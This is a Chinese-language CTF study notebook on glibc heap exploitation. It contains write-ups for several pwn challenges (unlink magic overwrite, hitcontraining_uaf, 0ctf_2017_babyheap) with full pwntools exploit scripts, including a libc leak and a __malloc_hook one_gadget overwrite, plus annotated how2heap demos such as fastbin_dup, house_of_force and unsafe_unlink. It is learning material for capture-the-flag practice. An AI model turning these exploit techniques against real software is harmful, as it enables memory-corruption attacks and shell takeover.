成功出现，并且bk指针也是预期的，这是申请完之后的，也就是脱链操作已经进行完之后的，此时可以看看magic的值是否修改完成。



修改完成。

此时只需要发送那个啥就行了。


成功了

exp：

```python
from pwn import*
r=process('./pwn')
magic=0x6020a0
#gdb.attach(r)
def create(size,content):
	r.recvuntil(':')
	r.sendline('1')
	r.recvuntil(':')
	r.sendline(str(size))
	r.recvuntil(':')
	r.sendline(content)

def edit(idx,size,content):
	r.recvuntil(':')
	r.sendline('2')
	r.recvuntil(':')
	r.sendline(str(idx))
	r.recvuntil(':')
	r.sendline(str(size))
	r.recvuntil(':')
	r.sendline(content)

def delete(idx):
	r.recvuntil(':')
	r.sendline('3')
	r.recvuntil(':')
	r.sendline(str(idx))

create(0x20,b'aaaa')
create(0x80,b'bbbb')
create(0x20,b'aaaa')

delete(1)

pay=b'a'*0x20+p64(0)+p64(0x91)+p64(0)+p64(magic-0x10)
edit(0,len(pay),pay)

create(0x80,b'bbbb')
r.sendlineafter(b':',b'4869')
r.interactive()
```

# bcloud_bctf_2016

检查



md,不会

[bcloud_bctf_2016 - LynneHuan - 博客园](https://www.cnblogs.com/LynneHuan/p/14616450.html)

# **hitcontraining_uaf**


32位程序



依旧菜单题

虽然add函数看不懂，但是可以看到delete函数有uaf漏洞，但这是两个指针吗，反正free两次，但是都没有清零。



创建一个新的笔记的时候都是会创建一个结构体即是8字节的，里面存的是printf_note的地址和内容地址，之后紧跟着的才是想要存入的内容，

所以现在就是想将printf_note的内容改成后门函数地址。

在fastbin中，释放掉的堆块是按照相对应的大小进行排列的，因为两个结构体的大小都是8字节，所以只需要申请两个大于8字节size大小的堆块，之后再次申请一个大小为8字节size的堆块

这一步就相当于直接就把一开始申请的两个结构体申请出来，这样就可以修改第二个结构体头部的prinf_not函数地址的内容，于是修改为我们后门函数地址。


```python
from pwn import *

context(arch="i386",os="linux",log_level="debug")

p = process("./pwn")
elf = ELF("./pwn")
# p = remote("node5.buuoj.cn",27273)

def addnote(size = b'32',content = b'A'*32):
	p.sendlineafter(b'Your choice :',b'1')
	p.sendafter(b'Note size :',size)
	p.sendafter(b'Content :',content)

def delnote(index):
	p.sendlineafter(b'Your choice :',b'2')
	p.sendafter(b'Index :',index)

def printnote(index):
	p.sendlineafter(b'Your choice :',b'3')
	p.sendafter(b'Index :',index)

def m_exit():
	p.sendlineafter(b'Your choice :',b'4')
addnote()
addnote()

delnote(b'0')
delnote(b'1')

magic=0x8048945

p.sendlineafter(b'Your choice :',b'1')
p.sendafter(b'Note size :',b'8')
p.sendafter(b'Content :',p64(magic))

printnote(b'0')

p.interactive()

```

# **0ctf_2017_babyheap**


看ai说只是修改两个小堆块，修改其中一个的size之后释放，使得两个小堆块进入unsortedbin 之后再次申请小的，其中一个被取出，另一个仍在unsortedbin中，之后查看内容，其fd和bk即是原始的数据区，当然是另一个小堆块，即可泄露出libc的相关地址



保护全开，或许堆题查看保护只是看它是多少位的

64位

ida查看关键函数


添加函数，限制size大小


编辑函数，这里可以自己定义内容大小，应该可以堆溢出




释放函数，指针清零，没有uaf啥的


退出函数

额，这么一想，好像查看保护也挺有用，这道题保护全开，嘶，也没有uaf。

不对，保护全开，基址是变化的，所以需要泄露libc基址

那么泄露完之后呢


结构体呢？分配的堆块呢？

那么再编辑一下内容




这个倒是看起来挺正常的，就是挺干净的


挺正常

感觉可以直接dump出来



哦，原来没有相关的指针了，被清零了。

编辑函数中有堆溢出。怎么用？

哦哦，修改小堆块的size之后，让他们进入unsortedbin


主要有5个堆块，第一个来进行溢出，使得第2个第3个进入fastbin之后，修改指针指向第5个堆块，之后


写入位置，修改位置，修改位置的值




此时已经修改过来了，此时需要申请来再次指向这个chunk4,但是它处于的是0x20大小的列表中，所以还需要修改chunk4的大小。

这个时候需要借助chunk3进行堆溢出修改


写入位置，修改的值



修改完成

接下来申请。



此时列表中什么都没有，所以就是原来的2序号就是指向了chunk4

但是4序号还是指向chunk4

这时泄露libc地址，需要chunk4进入unsoretdbin,之后需要将chunk4的size改回去


释放


接下来借助chun2来泄露




终于接收到了

接下来计算Libc基址



直接就是泄露出来的再减去这个就是


查看malloc_hook附近的函数，然后在进行伪造，使得能够修改其附近的地址。

接下来就是修改


所以weizaochunk的地址就是libc基址再加上0x3c4aed.

然后就是fastbin中修改chunk，之后的话再去更改其fd指针，之后再次申请就可以获得这个fake_chunk,之后再写入就可以。

因为是7a

所以申请的大小应该是0x60,


真的在第四个，一开始还不知道为什么又删除的是第四个


即是修改其fd指针

因为2号和4号都是

所以直接通过修改2号来进行fd修改


liubc居然弄错了，0a20空格和换行




也是成功指过去了

在原来的堆块里面找了半天，地址就不在那里面还找，其实可以写入一些数据，看看是否能写入那个函数附近



好呀，也是成功的把aaaa写进去了

那么接下来算到malloc_hook的偏移

0x7ff4678e3b10 malloc_hook函数地址

0x7ff4678e3afd  写入地址

相差0x13



改完了，接下来只需要申请一下调用这个函数就可以

这个和wp中的不一样，用的本地的


exp:

```python
from pwn import*
r=process('./pwn')
context.log_level='debug'
#gdb.attach(r)
def add(size):
	r.recvuntil(b':')
	r.sendline(b'1')
	r.recvuntil(b':')
	r.sendline(str(size))

def edit(idx,size,content):
	r.recvuntil(b':')
	r.sendline(b'2')
	r.recvuntil(b':')
	r.sendline(str(idx))
	r.recvuntil(b':')
	r.sendline(str(size))
	r.recvuntil(b':')
	r.sendline(content)

def delete(idx):
	r.recvuntil(b':')
	r.sendline(b'3')
	r.recvuntil(b':')
	r.sendline(str(idx))

def dump(idx):
    r.recvuntil(b':')
    r.sendline(b'4')
    r.recvuntil(b':')
    r.sendline(str(idx))

add(0x10)
add(0x10)
add(0x10)
add(0x10)
add(0x80)
add(0x10)

delete(1)
delete(2)

pay=p64(0)*3+p64(0x21)+p64(0)*3+p64(0x21)+p8(0x80)
edit(0,len(pay),pay)

pay1=p64(0)*3+p64(0x21)
edit(3,len(pay1),pay1)

add(0x10)
add(0x10)

pay2=p64(0)*3+p64(0x91)
edit(3,len(pay2),pay2)

delete(4)

dump(2)
r.recvuntil(b'Content: \n')
addr=(r.recv(6)).ljust(8,b'\x00')
print(u64(addr))
libase=u64(addr)-0x3c4b78
print(libase)
#pause()

fake_chunk=libase+0x3c4aed
add(0x60)
delete(4)
edit(2,len(p64(fake_chunk)),p64(fake_chunk))

add(0x60)
add(0x60)

pay3=b'a'*0x13+p64(libase+0x4527a)
#pay3=p8(0)*3+p64(0)*2+p64(libase+0x4526a)

edit(6,len(pay3),pay3)

add(0x50)

r.interactive()


```




**gyctf_2020_force**


简单的增加一个堆块，但是size并没有限制，然后增加内容。并且展示新增加的堆块的地址

好吧其实是有限制的，只能读入50字节。


# **0ctf_2018_heapstorm2**


依旧保护全开，那么肯定还是先泄露libc了。


# gyctf_2020_force


# 单身杯

## 1.CheckIn

保护全开


主流程

然后发现一个函数


这里似乎是触发，输入字符串

这个jmp跳转的地方好像是rax的值，那个read函数不是读取字符数量会存到rax中吗

# HOW2HEAP

## 2.23（部分）

## fastbin_dump

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
	fprintf(stderr, "This file demonstrates a simple double-free attack with fastbins.\n");

	fprintf(stderr, "Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	fprintf(stderr, "Freeing the first one...\n");
	free(a);

	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	fprintf(stderr, "So, instead, we'll free %p.\n", b);
	free(b);

	fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	fprintf(stderr, "Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
	a = malloc(8);
	b = malloc(8);
	c = malloc(8);
	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	assert(a == c);
}
```

其实就只是double基于fastbin机制下的

gdb调一下

```bash
gcc -g -O0 -o double_free fastbin_dup.c
```


申请一个堆块之后是这样的接下来申请完


删除a


删除b


再次删除a


a被释放两次，a此时又变成了头部

此时也是变成了环，这就形成了double free

接下来申请


确实，申请两次之后，确实里面确实还是原本b指向的a堆块的地址


可以看到a和c所指向的地址一样

这就是double达到的效果

Fastbin Double Free 是通过打破 `fasttop` 检查，在 Fastbin 单链表中制造**环**，从而实现**同一块内存被多次分配（UAF）**，最终达到劫持 `fd` 指针、实现**任意地址分配（Arbitrary Alloc）**的目的。

## fastbin_dup_consolidate

```bash
gcc -g -O0 -o 1 1.c
```

源码

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

/*
Original reference: https://valsamaras.medium.com/the-toddlers-introduction-to-heap-exploitation-fastbin-dup-consolidate-part-4-2-ce6d68136aa8

This document is mostly used to demonstrate malloc_consolidate and how it can be leveraged with a
double free to gain two pointers to the same large-sized chunk, which is usually difficult to do 
directly due to the previnuse check.

malloc_consolidate(https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L4714) essentially
merges all fastbin chunks with their neighbors, puts them in the unsorted bin and merges them with top
if possible.

As of glibc version 2.35 it is called only in the following five places:
1. _int_malloc: A large sized chunk is being allocated (https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L3965)
2. _int_malloc: No bins were found for a chunk and top is too small (https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L4394)
3. _int_free: If the chunk size is >= FASTBIN_CONSOLIDATION_THRESHOLD (65536) (https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L4674)
4. mtrim: Always (https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L5041)
5. __libc_mallopt: Always (https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L5463)

We will be targeting the first place, so we will need to allocate a chunk that does not belong in the 
small bin (since we are trying to get into the 'else' branch of this check: https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L3901). 
This means our chunk will need to be of size >= 0x400 (it is thus large-sized).

*/

int main() {
	printf("This technique will make use of malloc_consolidate and a double free to gain a UAF / duplication of a large-sized chunk\n");

	void* p1 = calloc(1,0x40);

	printf("Allocate a fastbin chunk p1=%p \n", p1);
  	printf("Freeing p1 will add it to the fastbin.\n\n");
  	free(p1);

  	void* p3 = malloc(0x400);

	printf("To trigger malloc_consolidate we need to allocate a chunk with large chunk size (>= 0x400)\n");
	printf("which corresponds to request size >= 0x3f0. We will request 0x400 bytes, which will gives us\n");
	printf("a chunk with chunk size 0x410. p3=%p\n", p3);

	printf("\nmalloc_consolidate will merge the fast chunk p1 with top.\n");
	printf("p3 is allocated from top since there is no bin bigger than it. Thus, p1 = p3.\n");

	assert(p1 == p3);

  	printf("We will double free p1, which now points to the 0x410 chunk we just allocated (p3).\n\n");
	free(p1); // vulnerability

	printf("So p1 is double freed, and p3 hasn't been freed although it now points to the top, as our\n");
	printf("chunk got consolidated with it. We have thus achieved UAF!\n");

	printf("We will request a chunk of size 0x400, this will give us a 0x410 chunk from the top\n");
	printf("p3 and p1 will still be pointing to it.\n");
	void *p4 = malloc(0x400);

	assert(p4 == p3);

	printf("We now have two pointers (p3 and p4) that haven't been directly freed\n");
	printf("and both point to the same large-sized chunk. p3=%p p4=%p\n", p3, p4);
	printf("We have achieved duplication!\n\n");
	return 0;
}
```

看介绍似乎也是实现一个双指的作用，先申请一个小的之后释放掉，之后再申请一个大的，触发相关机制，fastbin中的与topchunk合并，使得再次分配的时候就会使得大堆块的内存地址与一开始申请的小的相同。

然后free小的指针，然后大的chunk就会被释放，之后再次申请大chunk，这次申请的地址就会和上一次申请的大chunk地址相同。从而实现双指。

有什么用？


调试：

申请小堆0x40


接下来先释放这个堆块进入fastbin


接下来申请大堆块


可以看到和一开始申请的小堆块地址一样


接下来再释放p1


释放完之后居然哪个bin也没有进入吗？


行。然后再次申请大堆块，好像不管申请什么，都会获得一开始的地址


三个指针都指向开头

这个还是大的堆块，释放后还是会与topchunk合并。

行吧，起码知道还能这样。

## fastbin_dup_into_stack

这是写入栈中吗？（似乎是先将返回地址写入fd，之后直接篡改返回地址指向后门函数什么的）

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
	       "returning a pointer to a controlled location (in this case, the stack).\n");

	unsigned long long stack_var;

	fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

	fprintf(stderr, "Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	fprintf(stderr, "Freeing the first one...\n");
	free(a);

	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	fprintf(stderr, "So, instead, we'll free %p.\n", b);
	free(b);

	fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
	unsigned long long *d = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", d);
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	fprintf(stderr, "Now the free list has [ %p ].\n", a);
	fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
		"so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
		"so that malloc will think there is a free chunk there and agree to\n"
		"return a pointer to it.\n", a);
	stack_var = 0x20;

	fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

	fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
	fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```

服了，一直给我讲伪造堆块的size字段，讲为什么-8啥的，真服了。直接调

首先就是构造double free


首先申请3个在0x20大小范围的堆块

释放a


之后free b之后再次free a造成double free


接下来d申请一个小堆块，使得和a指向同一个堆块


接下来修改d就相当于修改a的相关结构内容了


还可以看到此时的fastbin链表头是chunkb

而它之后有申请了一次，使得a变成链表头


确实如此

然后他之后就开始吓唬搞了


fastbin取出的时候会检查fd指向的堆块的size字段。而现在d指向的就是a的fd字段，我们想修改这里，使得验证通过。

因为是0x20 而那个地址存的值就是0x20，而一般size字段是在chunk头的+0x8字节，所以是size-0x8+0x8得到的就是0x20.

那么他最终获得的是，maloc获得的是+0x10之后的，所以

最后获得的就是stack_var+0x8的地址是堆块首地址


这是修改d之前

接下来修改d指针指向的值


可以看到a的fd指针处的值确实被修改了


他后面8字节确实是0x20


在这里可以看到，在又一次申请堆块之后栈地址确实是被写入了


所以说这就是最后得到的申请的堆块吗，地址是98结尾的，之后如果这里是返回地址的话，直接篡改就行了。


又调一次


接下来e指向的就是那个地址


确实是申请到了栈地址

所以主要的就是伪造的栈地址需要满足size字段，之后fd改为size-0x8

之后malloc得到的地址就是size+0x10

## house_of_einherjar

使用条件：**单字节越界（off-by-one）**，可以向一块 malloc 分配出的堆块写入一个空字节（null byte）的场景

unlink checks

复用机制：

**如果前一个块还在用，我这个块的 `prev_size` 就借给他当数据区用。**

不多说了兄弟们，看了翻译就是一个堆块溢出之后，修改下一个的presize字段（还需要考虑unlink机制），之后的话，直接free就行了吧应该

```c
gcc -g -O0 -o 1 1.c
```


首先就是申请一个小堆块

我去原来第一个堆块加上的大小不是0x10而是0x8，前面的pre_size字段被复用了


而且


所以大小是0x40字节

然后接下来需要真实的chunka大小


接下来伪造fake_chunk


然后申请的是0xf8大小的


接下来直接溢出


可以看到b的size字段低位变成0

接下来好像是直接算偏移，用b的chunk地址减去伪造fake_chunk的地址，这应该是大小吧


可以看到b的pre_size字段已经被修改了


这应该就是计算过程


fake[chunk1]=fake_size


free（b）之后的效果


fake_chunk的大小改变了，


接下来申请堆块


可以看到，申请的堆首地址是我们伪造的fake_chunk,接下来就可以在此修改内容

嘶就是堆块重叠，之后的话，伪造堆块（需要注意绕过unlink机制，之后再次申请堆块需要绕过检查），堆溢出修改pre_size的标志位，

之后修改伪造堆块的size,改成计算出来的pre_size,之后的话就可以free,之后再次申请，就可以得到我们伪造堆块的地址，进而修改其内容。

## house_of_force（任意地址写）

哦，这个是修改top_chunk的size字段，使得直接从top_chunk分配相应大小的堆块

相应操作记起来好像只有，将top_chunk字段改为-1,当然需要首先安防一个小堆块用来堆溢出，之后free这个小堆块之后，（这里好像并没有和top_chunk合并）会和top_chunk合并，因为我们申请的是一个大堆块。之后就会直接从top_chunk分配，有啥用？只是申请一个地址吗？

原来是通过修改top_chunk的相关偏移，得到申请堆块的大小，进而实现任意地址写


```c
gcc -g -O0 -o 1 1.c
```

首先我们想要下下一次分配的地址是目标地址：

new_top=target-0x10(这样的话下一次malloc才会分配（new_top+0x10=target）)

那么我们第一次请求的大小是多少？

首先new_top=old_top+nb(malloc.size+0x10)

而 new_top=target-0x10=old_top+nb(malloc.size+0x10)

所以malloc.size=target-0x20-old_top

这个就是我们想要请求的大小

接下来直接调：


首先申请0x100大小的堆块


接下来知道top_chunk的地址


接下来修改top_chunk的大小


虽然上面会提示一大堆，但是最终还是修改完成了

接下来就是计算我们需要申请的大小


进行申请


接下来会申请堆块，获得的malloc地址就是我们的target_addr


接下来修改内容


可以看到相关的内容确实被改写了

希望不要忘记

接下来我就挑一点值得复现的做做

## unsafe_unlink

脱链吗？希望之前看的一部分还有点用

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>

uint64_t *chunk0_ptr;

int main()
{
	setbuf(stdout, NULL);
	printf("Welcome to unsafe unlink 2.0!\n");
	printf("Tested in Ubuntu 14.04/16.04 64bit.\n");
	printf("This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	printf("The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

	int malloc_size = 0x80; //we want to be big enough not to use fastbins
	int header_size = 2;

	printf("The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	printf("The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	printf("The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

	printf("We create a fake chunk inside chunk0.\n");
	printf("We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	printf("We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	printf("With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
	printf("Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	printf("Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);

	printf("We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	printf("We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	printf("It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	printf("If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	printf("We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
	chunk1_hdr[1] &= ~1;

	printf("Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
	printf("You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
	free(chunk1_ptr);

	printf("At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;

	printf("chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	printf("Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	printf("New Value: %s\n",victim_string);

	// sanity check
	assert(*(long *)victim_string == 0x4141414142424242L);
}


```

```bash
gcc -g -O0 -o 1 1.c
```

额，我觉得就是在原来的第一个堆块上伪造相应的fd和bk（所以最后），着重伪造的应该是

其fd字段和bk字段

fd:fakechunk-0x18    bk:fakechunk-0x10

之后再次篡改下一个堆块的pre_size的大小和标志位，在free这个堆块的时候就会触发unlink

这个时候我们伪造的堆块就会起作用，


之后就修改原本指针指向的地址。有点乱

调一下：

首先申请一个0x80大小的堆块chunk0


接下来又申请一个0x80大小的堆块为chunk1


chunk1也可以了


好吧，这两个指针有点耐人寻味

也就是说这个指针在内存中的地址是

0x602078

而它实际指向的的是

0x603010

接下来在chunk0里面创建fake_chunk


